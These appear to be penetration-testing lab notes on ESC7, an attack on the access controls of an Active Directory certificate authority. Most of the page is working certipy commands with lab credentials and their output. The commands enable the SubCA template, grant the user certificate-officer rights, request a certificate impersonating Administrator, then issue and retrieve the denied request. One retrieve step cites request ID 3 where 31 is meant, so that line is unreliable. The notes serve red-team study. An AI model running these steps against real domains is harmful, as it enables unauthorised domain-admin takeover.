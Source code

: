 ```yaml
---
description: Vulnerable Certificate Authority Access Control
---
```


# ESC7

A certificate authority holds a distinct set of permissions crucial for securing various CA functions.

* **CA Administrator (ManageCA right):** This role allows managing the CA's settings, including using the `ICertAdminD2::SetConfigEntry` method to adjust important configurations, like whether the CA accepts request attributes for Subject Alternative Names (SANs).
* **Certificate Manager (ManageCertificates right):** Also called a CA officer, this role focuses on managing issued certificates.

### <mark style="color:yellow;">Abuse from Linux - ManageCA rights</mark>

```sh
certipy find -u 'blwasp@lab.local' -p 'Password123!' -stdout -vulnerable

    [!] Vulnerabilities                        
      ESC7                              : 'LAB.LOCAL\\Black Wasp' has dangerous permissions
```

{% hint style="info" %}
Enabling `EDITF_ATTRIBUTESUBJECTALTNAME2` flag to perform `ESC6` attack, will not have any effect until the CA service (CertSvc) is restarted.
{% endhint %}

The `ManageCertificates` role allows us to approve pending certificate requests, which can be done with the ManageCA rights. Combining it with `ManageCertificates` roles, we can issue certificate requests that have failed.

`SubCA` template is also enabled by default. This template is vulnerable to `ESC1` but only permits `Domain Admins` and `Enterprise Admins` to enroll.

```sh
# Enable SubCA 
certipy ca -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -enable-template 'SubCA'
```

{% hint style="info" %}
It is important to note that when executing certipy, if the output does not display the `ManageCertificates` rights, it indicates that the server's rights are set by default.
{% endhint %}

With ManageCA rights we assign ManageCertificate rights to any account.

```sh
certipy ca -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -add-officer BlWasp
```

With the `SubCA` template enabled and with `ManageCertificates` rights, we can request a certificate by adding an alternative `SAN` and selecting the `SubCA` template.

```sh
mczen@htb[/htb]$ certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -template SubCA -upn Administrator

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 31
Would you like to save the private key? (y/N) y
[*] Saved private key to 31.key
[-] Failed to request certificate
```

Error because we are not member of Domain Admins or Enterprise Admins. Save the request ID 31 and yes to save the key. With ManageCA and ManagerCertificates rights we issue the failed certificate request using certipy ca with -issue-request 31

```sh
mczen@htb[/htb]$ certipy ca -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -issue-request 31
```

Retrieve the certificate with ID

```sh
certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -retrieve 3
```

### <mark style="color:yellow;">Abuse from Linux - ManageCertificates rights</mark>

Request a certificate

```sh
mczen@htb[/htb]$ certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -template ESC7_1 -upn Administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[!] Certificate request is pending approval
[*] Request ID is 59
Would you like to save the private key? (y/N) y
[*] Saved private key to 59.key
[-] Failed to request certificate
```

It says the certificate request is pending approval, showing request ID 59. Save private key again and approve the request.

```sh
mczen@htb[/htb]$ certipy ca -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -issue-request 59                                             
Certipy v4.8.2 - by Oliver Lyak (ly4k)                                                                                                            
                                                                                                                                                  
[*] Successfully issued certificate
```

Finally retrieve the approved request

```sh
certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -retrieve 59             
```
